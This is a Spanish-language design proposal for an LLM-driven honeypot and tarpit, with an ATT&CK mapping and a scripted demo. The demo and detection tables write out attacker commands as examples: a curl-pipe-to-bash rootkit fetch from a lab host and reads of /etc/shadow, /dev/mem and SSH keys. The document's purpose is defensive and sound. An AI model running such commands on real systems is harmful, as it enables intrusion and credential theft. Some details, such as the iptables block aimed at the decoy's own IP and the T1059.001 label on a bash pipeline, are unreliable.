


# **Honey-Agent: Agente Defensivo Tarpit con Contra-Inteligencia en Memoria**

## **Propuesta Técnica y Arquitectura de Ciberdefensa Activa**

* **Track:** Defensa con Inteligencia Artificial  
* **Categoría:** Defensa Activa y Tecnología de Decepción Cognitiva (*Active Defense & Cognitive Deception*)  
* **Versión del Proyecto:** 1.0  
* **Estado:** Propuesta de Implementación y Arquitectura Técnica

---

## **Resumen Ejecutivo**

La asimetría de la ciberseguridad contemporánea favorece sistemáticamente a los actores hostiles. Mientras que un Centro de Operaciones de Seguridad (SOC) requiere blindar la totalidad de la superficie de ataque, un atacante solo necesita identificar un único vector de compromiso. Las defensas tradicionales de detección perimetral operan bajo un paradigma reactivo y binario: alertar o bloquear. Este modelo entrega retroalimentación inmediata al adversario sobre la efectividad de sus herramientas y técnicas, permitiéndole iterar sus vectores de ataque a coste cero.

**Honey-Agent** redefine este paradigma mediante la convergencia de Deception Technology, Large Language Models (LLM) y técnicas de contención activa (*Cognitive Tarpitting*). El sistema actúa como un señuelo interactivo ejecutado íntegramente en memoria volátil (*in-memory state machine*), simulando de manera indistinguible entornos corporativos reales (servidores SSH, interfaces de administración REST y consolas de bases de datos).



---

## **Propuesta de Valor y Objetivos Principales**

1. **Inversión del Coste Asimétrico:** Honey-Agent retiene activamente al atacante dentro de un espacio sintético mediante respuestas creíbles y retardos calculados probabilísticamente. Se desgastan las herramientas automáticas y el tiempo operativo humano del adversario.
2. **Generación de Telemetría e Inteligencia de Alto Valor:** Cada comando, payload y vector de movimiento lateral es capturado, analizado contra la taxonomía MITRE ATT&CK y correlacionado en tiempo real sin riesgo para la infraestructura crítica subyacente.
3. **Inoculación de Contra-Inteligencia Rastreable:** El sistema inyecta selectivamente "Canary Tokens" (credenciales falsas, claves de API, strings de conexión firmados). Si el atacante intenta reutilizar o exfiltrar estos datos en otros segmentos de la red, los sistemas perimetrales activan alertas inmediatas y no repudiables.
4. **Aislamiento Perimetral Dinámico:** Al superar umbrales de severidad específicos, el sistema orquesta reglas de aislamiento en tiempo real a nivel de kernel mediante `iptables`/`UFW`, expulsando al intruso y mitigando la amenaza antes de su propagación.

---

## **Justificación Estratégica y Estado del Arte**

El despliegue de señuelos defensivos ha atravesado diversas etapas históricas, evidenciando limitaciones técnicas que Honey-Agent mitiga integralmente:

| Parámetro Comparativo | Clasificadores Pasivos (IDS/IPS/WAF) | Honeypots Estáticos (Cowrie / Dionaea) | Honey-Agent (Defensa Activa en Memoria) |
| :--- | :--- | :--- | :--- |
| **Nivel de Interactividad** | Nulo (Detección de firmas y tráfico). | Bajo/Medio (Comandos emulados predefinidos). | **Dinámico y total** (Emulación contextual profunda con LLM). |
| **Huella Digital / Fingerprinting** | No aplicable (Detección por comportamiento/red). | Alta (Errores predecibles, comandos faltantes, respuestas rígidas). | **Virtualmente indetectable** (Generación coherente en tiempo real). |
| **Tiempo de Retención (Tarpit)** | Cero (Bloqueo o paso inmediato). | Nulo o estático (Sin adaptación al estado de la sesión). | **Activo y probabilístico** (Retardo cognitivo adaptativo). |
| **Riesgo Operacional** | Falsos positivos que degradan el negocio. | Riesgo de escape de sandbox si se usa alta interacción real. | **Aislamiento absoluto:** ejecución 100% en memoria volátil sin persistencia en disco ni kernel local accesible. |
| **Generación de Inteligencia** | Logs de eventos aislados. | Binarios capturados y patrones fijos. | **Mapeo continuo MITRE ATT&CK**, perfiles tácticos y Canary Tokens trazables. |

Los honeypots estáticos de baja interacción resultan ineficaces frente a atacantes medianamente sofisticados: bastan comandos no implementados (`strace`, tuberías complejas, inspección de `/proc/cpuinfo`) para detectar la trampa. Los entornos de alta interacción convencionales conllevan el riesgo latente de ser utilizados como pivotes si la contención del hipervisor o contenedor falla. Honey-Agent supera ambas barreras generando la ilusión interactiva dinámicamente mediante inferencia en memoria, sin instanciar un sistema operativo subyacente vulnerable.

---

## **Arquitectura del Sistema y Flujo de Datos**

Honey-Agent está diseñado bajo un modelo modular, reactivo y asíncrono para garantizar alto rendimiento, baja latencia de procesamiento interno y robustez frente a ataques de denegación de servicio.

### **Componentes Principales**

#### **1. Listener y Proxy Perimetral Asíncrono**
Construido sobre Python `asyncio` y capas específicas de protocolo (servidor SSH personalizado con `asyncssh`/`paramiko` y API listeners sobre `FastAPI`). Su propósito es capturar conexiones entrantes en puertos de alta demanda (e.g., 22, 80, 443, 8080), gestionar el handshake criptográfico y canalizar las corrientes de entrada/salida hacia el bus interno sin interactuar con los servicios nativos del host.

#### **2. Motor Generativo en Memoria (LLM Emulator Engine)**
Coordina la emulación sintética del entorno solicitado mediante modelos de lenguaje (e.g., Llama-3-8B local o API LLM especializada). El motor mantiene una máquina de estados en RAM que almacena el árbol de directorios simulado, variables de entorno, procesos en ejecución y un búfer de comandos históricos. Al recibir una instrucción, se construye un prompt estructurado que dicta restricciones de salida: formatos estándar POSIX, códigos de retorno y respuestas idénticas a utilidades GNU Coreutils.

#### **3. Inyector de Contra-Inteligencia y Canary Tokens**
Incrusta artefactos señuelo dentro de los outputs del sistema emulado. Si el intruso ejecuta comandos como `cat .env`, `history`, `env` o consultas SQL simuladas, el inyector agrega tokens dinámicos:
* API Keys corporativas inactivas pero válidamente formateadas (AWS, Stripe, OpenAI).
* Credenciales de acceso a segmentos de red internos (*Honey-Credentials*).
* Registros DNS específicos con resolución monitoreada.

#### **4. Módulo Tarpit Cognitivo**
Aplica algoritmos de retardo adaptativo en la entrega de bytes de salida. A diferencia de un Tarpit de red convencional (e.g., LaBrea), este módulo ajusta la latencia según la expectativa del comando ejecutado: un comando simple como `whoami` responde de inmediato para consolidar la confianza de la víctima, mientras que compilaciones simuladas (`make`), búsquedas exhaustivas (`find / -perm -4000`) o peticiones a bases de datos incorporan micro-retardos e incrementos graduales para maximizar el tiempo de retención.

#### **5. Motor Táctico MITRE ATT&CK y Profiling**
Analiza el flujo de comandos normalizados en tiempo real mediante coincidencia heurística y clasificación por modelos de inferencia. Asigna cada acción a técnicas y tácticas específicas de la matriz MITRE ATT&CK, computando un puntaje de peligrosidad acumulado (*Threat Score*).

#### **6. Mecanismo de Aislamiento Perimetral Automático**
Interfaz directa con el subsistema de filtrado de paquetes del kernel (`netfilter` vía comandos `iptables`/`UFW` o `nftables`). Cuando el *Threat Score* del atacante o la ejecución de una técnica crítica supera el umbral preconfigurado (e.g., intento de explotación activa de RCE conocida o uso de herramientas de fuerza bruta masiva), el mecanismo ejecuta la regla:

```bash
iptables -I INPUT -s <IP_ATACANTE> -j DROP
```

El bloqueo ocurre en milisegundos, salvaguardando logs y telemetría recolectada hasta el momento exacto de la expulsión.

---

## **Especificación Funcional y Casos de Uso**

### **1. Escenario: Emulación SSH/Bash Corporativo**
* **Interacción:** El atacante establece una conexión SSH no autorizada. El listener acepta cualquier credencial o explota patrones débiles intencionados (e.g., `admin:admin123`, `ubuntu:ubuntu`).
* **Comportamiento:** Se presenta un banner creíble de distribución Linux corporativa (e.g., Ubuntu 22.04 LTS con kernel 5.15.0).
* **Gestión de Estado:** La sesión mantiene variables de entorno (`$PWD`, `$USER`, `$PATH`). Si el intruso ejecuta `mkdir /tmp/payload && cd /tmp/payload`, el árbol de directorios efímero refleja la creación y el desplazamiento, manteniéndolo únicamente dentro del diccionario en memoria asignado a la sesión.
* **Resiliencia Operativa:** Comandos complejos como tuberías (`ps aux | grep root | awk '{print $2}'`) son interpretados contextualmente por el LLM, produciendo la salida que un administrador de sistemas esperaría encontrar en un nodo productivo.

### **2. Escenario: Exposición de API REST y Consola Administrativa**
* **Interacción:** Escaneo de puertos web revela endpoints como `/api/v1/auth`, `/swagger/` o `/.git/`.
* **Comportamiento:** El motor responde con esquemas JSON válidos, cabeceras HTTP creíbles (e.g., `Server: gunicorn/20.1.0`) y códigos de estado realistas.
* **Inyección de Contra-Inteligencia:** Las respuestas a peticiones erróneas o a endpoints sensibles filtran intencionalmente fragmentos de código fuente o comentarios que guían al atacante hacia endpoints trampa secundarios instrumentados con alertas de prioridad crítica.

### **3. Dinámica del Retardo Adaptativo (Cognitive Tarpitting)**

El retardo no sigue una curva lineal o estática que alerte al adversario. Se modela mediante la siguiente función de respuesta:

$$T_{\text{espera}} = T_{\text{base}}(cmd) + \alpha \cdot \log(1 + N_{\text{interacciones}}) + \mathcal{N}(0, \sigma^2)$$

Donde:
* $T_{\text{base}}(cmd)$ representa la duración estimada estándar de la operación (e.g., 0.05s para `id`, 1.2s para `grep -r`).
* $\alpha$ es el coeficiente de retención progresiva.
* $N_{\text{interacciones}}$ es el número acumulado de comandos del atacante en la sesión.
* $\mathcal{N}(0, \sigma^2)$ introduce una fluctuación estocástica gaussiana para evitar patrones estáticos detectables mediante análisis estadístico de paquetes.

---

## **Mapeo a la Taxonomía MITRE ATT&CK**

Honey-Agent monitorea y cataloga la actividad del intruso, asignando eventos a la matriz de Enterprise Tactics de manera determinística:

| MITRE ID | Táctica | Técnica Identificada | Comandos / Comportamientos Asociados en Señuelo |
| :--- | :--- | :--- | :--- |
| **T1082** | Discovery | System Information Discovery | `uname -a`, `cat /etc/os-release`, `hostnamectl` |
| **T1033** | Discovery | System Owner/User Discovery | `whoami`, `id`, `w`, `last` |
| **T1057** | Discovery | Process Discovery | `ps aux`, `ps -ef`, `top -n 1` |
| **T1083** | Discovery | File and Directory Discovery | `ls -la`, `tree`, `find / -name "*.conf"` |
| **T1003** | Credential Access | OS Credential Dumping | `cat /etc/shadow`, `strings /dev/mem`, búsqueda de claves `.ssh/id_rsa` |
| **T1552** | Credential Access | Unsecured Credentials | Lectura de archivos `.bash_history`, credenciales en `.env` |
| **T1021** | Lateral Movement | Remote Services | Intentos de pivotaje vía `ssh`, `curl`, `wget` hacia subredes privadas simuladas |
| **T1059** | Execution | Command and Scripting Interpreter | Descarga y ejecución de scripts Bash, pipelines (`curl ... \| bash`) |

### **Perfilado Heurístico del Atacante**

Honey-Agent clasifica al adversario en tiempo real según métricas comportamentales:



* **Script Kiddie / Botnet:** Ráfagas automatizadas de comandos cada menos de 100 milisegundos, escaneo con patrones estandarizados (listas de contraseñas de `SecLists`), incapacidad de reaccionar contextualmente ante respuestas complejas generadas por el LLM.
* **Operador Avanzado (Human-in-the-Loop / APT):** Pausas de lectura tras la recepción de outputs extensos, uso de comandos de ofuscación de historial (`HISTCONTROL=ignorespace`), consultas minuciosas de configuraciones de red internas y búsqueda metódica de vectores de escalada de privilegios locales.

---

## **Stack Tecnológico y Viabilidad de Implementación**

El stack tecnológico de Honey-Agent ha sido seleccionado meticulosamente para maximizar el rendimiento, garantizar la contención absoluta y permitir un despliegue veloz tanto en evaluaciones técnicas y hackathons como en infraestructuras de producción empresarial.

| Componente | Tecnología | Justificación Técnica de Selección |
| :--- | :--- | :--- |
| **Core de Concurrencia** | Python 3.11+ / `asyncio` | Manejo eficiente de miles de conexiones I/O-bound concurrentes con mínimo consumo de CPU y memoria mediante un event loop no bloqueante. |
| **Capa de Emulación SSH** | `asyncssh` / `paramiko` | Implementación completa del protocolo SSHv2 en espacio de usuario, permitiendo interceptar el handshake, autenticación flexible y control total del terminal PTY. |
| **Capa de Emulación Web** | `FastAPI` / `uvicorn` | Rendimiento cercano a Go/Node.js, auto-documentación OpenAPI para generación dinámica de trampas y arquitectura basada en estándares ASGI. |
| **Motor Cognitivo (LLM)** | Ollama (Llama-3-8B-Instruct) / vLLM / Google Gemini API | Inferencia ultrarrápida local o vía API de baja latencia; aislamiento de datos de telemetría y respuestas contextualmente indistinguibles de una distribución Linux real. |
| **Persistencia Efímera** | In-Memory Dictionary + Redis | Cero escrituras a disco rígido local para prevenir persistencia maliciosa o escapes de contenedor. El estado completo de la sesión vive en RAM. |
| **Orquestación de Red** | `iptables` / Linux Kernel Netfilter | Bloqueo perimetral sin latencia a nivel de capa de red (Capas 3 y 4 del modelo OSI), compatible de forma nativa con cualquier distribución Linux. |
| **Dashboard y Telemetría** | Streamlit + Plotly | Renderizado interactivo en tiempo real de métricas, grafo de conexión MITRE ATT&CK y feed de sesión sin complejidad de despliegue frontend pesado. |

---

## **Plan de Demostración en Vivo (Live Demo Protocol)**

El protocolo de demostración expone visual y técnicamente el ciclo completo de engaño, retención, captura de inteligencia y mitigación perimetral activa.

### **Fase 1: Infiltración y Reconocimiento Inicial**
1. Desde una máquina atacante (e.g., Kali Linux), el operador ejecuta un escaneo de puertos sobre la IP del señuelo:
   ```bash
   nmap -p 22 -sV 192.168.1.100
   ```
2. El escáner reporta un servicio `OpenSSH 8.9p1 Ubuntu 3ubuntu0.4`.
3. El atacante inicia una sesión SSH:
   ```bash
   ssh root@192.168.1.100 -p 22
   ```
4. El sistema acepta cualquier credencial ingresada (o una específica prevista para el demo, e.g., `root:toor`) y presenta un banner auténtico de sistema Linux de producción.

### **Fase 2: Engaño Dinámico, Tarpit y Extracción de Contra-Inteligencia**
1. El atacante ejecuta comandos de reconocimiento básicos:
   ```bash
   whoami
   id
   uname -a
   ```
   Las respuestas son inmediatas y perfectamente formateadas según un sistema Ubuntu Server real.
2. El atacante procede a buscar credenciales corporativas:
   ```bash
   cat /var/www/html/.env
   ```
3. El LLM genera dinámicamente un archivo `.env` que incluye un Canary Token generado al vuelo:
   ```env
   DB_HOST=10.0.4.15
   DB_USER=app_admin
   DB_PASS=Sup3rS3cr3tP@ss2024!
   AWS_ACCESS_KEY_ID=AKIAIOSFODNN7CANARYTK
   AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYCANARYKEY
   ```
4. El atacante intenta ejecutar un comando pesado o de búsqueda profunda:
   ```bash
   find / -name "*secret*" -type f
   ```
5. El **Módulo Tarpit** retiene la terminal durante 4.5 segundos antes de emitir los resultados simulados, reproduciendo el comportamiento de I/O de un disco real bajo carga y consumiendo el tiempo del atacante.

### **Fase 3: Visualización en el SOC Dashboard y Aislamiento Perimetral**
1. En el panel de control de Honey-Agent (Streamlit Dashboard en pantalla secundaria), el jurado observa:
   * Registro en tiempo real de la sesión (IP origen, puerto, geolocalización simulada).
   * Línea de tiempo de comandos con su correspondiente clasificación MITRE ATT&CK (e.g., *T1083 - File and Directory Discovery*).
   * Estado del *Threat Score* incrementándose con cada comando peligroso.
2. El atacante intenta descargar y ejecutar un exploit remoto:
   ```bash
   curl -s http://192.168.1.200/rootkit.sh | bash
   ```
3. El motor detecta la técnica de ejecución crítica (*T1059.001*), elevando el score de amenaza al 100%.
4. **Respuesta Automática:** El sistema despacha el comando de aislamiento:
   ```bash
   iptables -I INPUT -s 192.168.1.100 -j DROP
   ```
5. La sesión del atacante se congela inmediatamente; los comandos subsecuentes caen en timeout y los nuevos intentos de conexión son descartados silenciosamente a nivel de kernel. El dashboard del SOC marca la IP como **CONTAINED & BLOCKED**.

---

## **Conclusiones y Proyección Futura**

Honey-Agent representa una evolución estratégica dentro de los paradigmas de Active Defense y Deception Technology:
1. **Inversión Táctica de la Asimetría:** Transforma la superficie de ataque en un laberinto probabilístico donde el atacante gasta tiempo y recursos mientras provee telemetría al defensor.
2. **Seguridad Absoluta por Diseño:** La separación lógica y física lograda mediante emulación generativa en memoria garantiza que no exista un sistema operativo comprometible ni vectores viables de escape lateral.
3. **Escalabilidad y Señuelos Federados:** La naturaleza asíncrona y contenerizada de la arquitectura permite desplegar constelaciones distribuidas de agentes (*mesh deception networks*) en diferentes zonas de una VPC empresarial con un coste marginal mínimo.

### **Hoja de Ruta Evolutiva (Roadmap)**
* **Federación Descentralizada de Señuelos (Honey-Mesh):** Sincronización de inteligencia entre agentes distribuidos para propagar reglas de bloqueo preventivo en toda la infraestructura de la organización en menos de 5 segundos.
* **Integración Nativa con Plataformas SOAR:** Despacho automatizado de alertas de Canary Tokens a sistemas Cortex XSOAR, Splunk y Microsoft Sentinel vía webhooks autenticados.
* **Técnicas Avanzadas de Prompt Hardening:** Blindaje heurístico del modelo generativo contra ataques de *Jailbreak* e inyecciones adversarias de prompt orientadas a romper el rol de emulación del sistema.

---

## **Estructura Documental del Proyecto**

Para la implementación completa y operación de Honey-Agent, consulte los documentos complementarios en esta carpeta:

* [02. Arquitectura Técnica y Diseño Detallado del Sistema](file:///C:/Security_IA/docs/02_Arquitectura_Tecnica_y_Diseno_del_Sistema.md)
* [03. Guía de Instalación, Despliegue y Operación](file:///C:/Security_IA/docs/03_Guia_de_Instalacion_Despliegue_y_Operacion.md)
* [04. Matriz MITRE ATT&CK y Motor Heurístico](file:///C:/Security_IA/docs/04_Matriz_MITRE_ATTACK_y_Motor_Heuristico.md)
* [05. Ingeniería de Prompts, Seguridad Adversaria y Canary Tokens](file:///C:/Security_IA/docs/05_Ingenieria_de_Prompts_y_Seguridad_Adversaria.md)
* [06. Especificación de API y Modelos de Datos](file:///C:/Security_IA/docs/06_Especificacion_de_API_y_Modelos_de_Datos.md)
* [07. Playbook de Pruebas y Simulación Red Team](file:///C:/Security_IA/docs/07_Playbook_de_Pruebas_y_Simulacion_Red_Team.md)
* [08. Pitch Deck, Guión Demo y Defensa Técnica](file:///C:/Security_IA/docs/08_Pitch_Deck_Guion_Demo_y_Defensa_Tecnica.md)
